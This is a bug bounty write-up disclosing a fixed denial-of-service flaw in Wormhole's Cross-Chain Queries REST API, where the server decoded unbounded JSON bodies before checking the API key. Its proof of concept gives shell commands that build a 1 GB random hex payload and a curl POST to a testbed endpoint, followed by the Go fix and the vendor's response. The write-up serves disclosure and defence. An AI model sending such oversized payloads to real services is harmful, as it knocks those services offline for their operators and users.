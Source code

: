 # Taking down Wormhole's CCQ service through REST API


<!--more-->

## 1. Introduction

As part of my Bug Bounty journey, I like to monitor my favorite programs on Github. Checking their latest Pull Requests/commits allow me to know what they are working on, and to get an insight of where security issues could arise. \
In this article, I will describe how I was able to find an issue within a new product (CCQ) of Wormhole. \
Because I was monitoring the project closely, I found the issue soon after it was pushed on the main branch, and before it was pushed on the Guardians nodes. \
The following sections are taken from the Immunefi report. I would like to thank the Wormhole's team for allowing me to post and for their professionalism.

## 2. Bug Description

The tests were performed on the commit: [6c3ff43d6a416abce680e77ce81a9f613ba27075](https://github.com/wormhole-foundation/wormhole/commit/6c3ff43d6a416abce680e77ce81a9f613ba27075) \
Wormhole has implemented a new feature: [Cross-Chain Queries](https://github.com/wormhole-foundation/wormhole/blob/main/whitepapers/0013_ccq.md) which includes a REST API :

> a separate REST server is being provided to accept off-chain query requests

Also the feature is designed to work off-chain only (p2p, API) in the initial deployment:

> The initial release of CCQ will not support on chain requests.

There are two issues regarding the REST API.
The function handleQuery() within [http.go](https://github.com/wormhole-foundation/wormhole/blob/6c3ff43d6a416abce680e77ce81a9f613ba27075/node/cmd/ccq/http.go#L40) :

1. Checks authentication **after** decoding the payload:

```golang
var q queryRequest
err := json.NewDecoder(r.Body).Decode(&q)
(...)
apiKey, exists := r.Header["X-Api-Key"]
if !exists || len(apiKey) != 1 {
	s.logger.Debug("received a request without an api key", zap.Stringer("url", r.URL), zap.Error(err))
	http.Error(w, "api key is missing", http.StatusBadRequest)
	return
}
```

2. Does **not limit the size** of the POST payload.

In consequence, an attacker can craft an arbitrary curl request containing 1Gb of hexadecimal payload.
This will cause the server to decode the body for a very long time, leading to very high increase in RAM, and increase of CPU.
On my testbed, it led to container restarting due to lack of resources.

## 3. POC

First of all, we need to recreate a little Wormhole environment with Tilt.

```bash
git clone https://github.com/wormhole-foundation/wormhole/
cd wormhole
make node
minikube start --cpus=8 --memory=24G --disk-size=100G --driver=docker
tilt up
```

Then we need to modify the Tilt file so we can access the CCQ feature, please refer to the following [Tilt file](https://gist.github.com/0xfadam/4ba10f032d3d2530f5f28556285248a6)

To create the 1 Gb payload that will crash the service :

```bash
echo -ne '{"data" : "' >> json_payload.json
dd if=/dev/urandom bs=1M count=1024| xxd -p -c 1024 >> json_payload.json
echo -ne '"}' >> json_payload.json
tr -d "\n" <  json_payload.json > final_payload.json
rm  json_payload.json
```

To perform the attack :

```bash
curl -X POST -H "Content-Type: application/json" -T final_payload.json http://guardian:8996/v1/query
```

A video PoC (with 2 videos) demonstrates the impact:

1. https://drive.google.com/file/d/1vvzbUr-ucuVWthf7K57eiiHGFoqf9x-O/view?usp=sharing
2. https://drive.google.com/file/d/1vwDj27H4Y97vbOMvzJVzKxgdbz08mNzz/view?usp=sharing

The PoC is running on a I7 server (16CPU) + 32 Gb RAM, and only one curl is used. \
On the second video, at 5.22, the server reaches maximum RAM and container restarts.

Only 2/3 requests were used. The purpose of using a small amount of requests was to demonstrate that the issue was not **network-related** , but **application-related**.

## 4. Recommendation

1. The first part of the fix is to check the authentication before processing the JSON payload.

```golang
	// There should be one and only one API key in the header.
	apiKeys, exists := r.Header["X-Api-Key"]
(...)
	var q queryRequest
	err := json.NewDecoder(http.MaxBytesReader(w, r.Body, MAX_BODY_SIZE)).Decode(&q)
	if err != nil {
		s.logger.Debug("failed to decode body", zap.Error(err))
		http.Error(w, err.Error(), http.StatusBadRequest)
		return
	}
```

2. Additionnally, a control over the payload size is now performed, ensuring it does not exceed 5Mb.

```golang
const MAX_BODY_SIZE = 5 * 1024 * 1024
(...)
err := json.NewDecoder(http.MaxBytesReader(w, r.Body, MAX_BODY_SIZE)).Decode(&q)
```

## 5. Wormhole response

CCQ service exists outside of the Guardians, on different servers. \
This is by design to ensure minimal running services are on the node that contains the guardian signing and identity (p2p) keys. \
Therefore, impacting CCQ could have not caused a Denial of Service on the Guardians. \
Also, it is expected that Guardians operators will protect the CCQ feature behind a reverse-proxy and other security equipments.

With that being said, Wormhole has been very proactive and has fixed the issue **on the same day** of the report, through the [PR 3443](https://github.com/wormhole-foundation/wormhole/pull/3443).

